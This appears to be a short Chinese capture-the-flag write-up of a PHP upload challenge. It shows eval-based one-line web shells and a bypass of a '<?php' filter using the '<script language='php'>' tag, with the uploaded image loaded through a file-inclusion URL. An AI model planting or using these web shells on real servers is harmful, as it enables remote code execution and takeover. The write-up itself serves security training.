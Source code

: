 # upload



## upload.php对上传内容进行了过滤，

如果上传`<?php eval($_GET['cmd']);?>` 

```
http://114.67.246.176:10327/index.php?file=upload/202108290303009190.png
访问时只能得到下面内容
_eval($_POST['cmd']);_
```

而对于php的另一种表示方法`<script langange=php>`没有进行过滤

```
<script language='php'>
eval($_POST['cmd']);
</script>

//system("ls")

http://114.67.246.176:10327/index.php?file=upload/202108290303009190.png
```

